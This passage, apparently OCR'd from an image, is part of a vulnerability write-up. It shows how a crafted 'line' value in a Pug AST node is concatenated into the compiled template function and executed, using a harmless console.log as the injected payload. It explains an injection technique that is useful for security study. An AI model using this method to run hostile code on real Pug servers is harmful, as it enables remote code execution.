 ```
          },
          {
            type: "Text",
            val: ", thank you for letting us know!",
            line: 1,
            column: 19,
          },
        ],
        line: 1,
      },
      attrs: [
      ],
      attributeBlocks: [
      ],
      isInline: true,
      line: 1,
      column: 1,
    },
  ],
  line: 0,
}

We're passing the code.block to visit(). The code.block value will be:
{
	type: "Text",
	line: "console.log('hello there!')",
} 

In the visit(node) method, we have the following
if (debug && node.debug !== false && node.type !== 'Block') {
      if (node.line) {
        var js = ';pug_debug_line = ' + node.line;
        if (node.filename)
          js += ';pug_debug_filename = ' + stringify(node.filename);
        this.buf.push(js + ';');
      }
}

That node.line is our payload. That ";pug_debug_line = ' + node.line" line will be ";pug_debug_line = ' + console.log('hello there!')"

And our output template function code will look like this:

function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;
    var locals_for_with = (locals || {});
    
    (function (console, user) {
      ;pug_debug_line = 1;
pug_html = pug_html + "\u003Cspan\u003E";
;pug_debug_line = 1;
pug_html = pug_html + "Hello ";
;pug_debug_line = 1;
pug_html = pug_html + (pug.escape(null == (pug_interp = user) ? "" : pug_interp));
;pug_debug_line = console.log('hello there!');
pug_html = pug_html + "ndefine";
;pug_debug_line = 1;
pug_html = pug_html + ", thank you for letting us know!\u003C\u002Fspan\u003E";
    }.call(this, "console" in locals_for_with ?
        locals_for_with.console :
        typeof console !== 'undefined' ? console : undefined, "user" in locals_for_with ?
        locals_for_with.user :
        typeof user !== 'undefined' ? user : undefined));
```